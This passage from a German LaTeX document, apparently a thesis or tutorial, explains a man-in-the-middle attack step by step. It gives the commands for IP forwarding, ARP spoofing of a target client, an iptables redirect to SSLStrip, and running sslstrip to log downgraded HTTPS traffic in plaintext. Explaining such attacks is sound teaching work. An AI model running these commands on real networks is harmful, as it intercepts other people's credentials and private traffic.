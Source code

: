 \begin{lstlisting}[caption=Aktivieren von IP-Forwarding]{Name}
	sysctl -w net.ipv4.ip_forward=1
	alternativ: echo 1 > /proc/sys/net/ipv4/ip_forward
\end{lstlisting}
	

Anschließend wird ARP-Spoofing gestartet. Dies geschieht mit folgenden Befehlen:
\begin{lstlisting}[caption=Parameter für ARP-Spoofing]
arpspoof -i <interface> -t <targetIP> <gatewayIP>
Parameter:
	-i  <interface>		Angabe des Interfaces, in dem sich Angreifer und Client befinden.
	-t <targetIP>   	IP-Adresse des anzugreifenden Clients
	<gatewayIP>   		IP-Adresse des Gateways im LAN
\end{lstlisting}

Nachdem nun mittels ARP-Spoofing alle IP-Pakete vom angegriffenen Client über den Angreifer gesendet werden, müssen die umgeleiteten HTTP-Pakete via IPtables an das Tool SSLStrip weitergereicht werden. Dies geschieht mittels folgendem Eintrag:\\

\begin{lstlisting}[caption=Eintrag in IP-Tables damit HTTP-Pakete an sslstrip weitergereicht werden]
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port <listenPort>
Parameter:
	-t nat                 	: Firewall-Gruppe
	-A PREROUTING          	: Regel wird angewandt, BEVOR Paket geroutet wird
	-p tcp                 	: Nur TCP-Pakete
	--destination-port 80  	: Nur Pakete auf Port 80 (http)
	-j REDIRECT            	: Legt Aktion fest, also Weiterleitung
	--to-port <listenPort> 	: Port auf dem SSLStrip lauscht.
\end{lstlisting}


Nun muss noch SSLStrip selbst gestartet werden. Dies geschieht mittels folgender Eingabe:
\begin{lstlisting}[caption=Erforderliche Parameter für SSLStrip]
sslstrip -a -k -l <listenPort> -w <logpath>
Parameter:
	-s : Gesamter SSL Traffic wird gelogged
	-p : Nur SSL POST Traffic wird protokolliert
	-a : SSL- und HTTP-Traffic wird aufgezeichnet
	-k : Bestehende SSL-Verbindungen terminieren, damit diese neu aufgebaut werden
	-l : Port auf dem SSLStrip lauscht. Muss identisch zu --to-port bei iptables-Eintrag sein
	-w : Pfad in dem gehijackter HTTPS-Traffic im Klartext abgespeichert wird
\end{lstlisting}
	
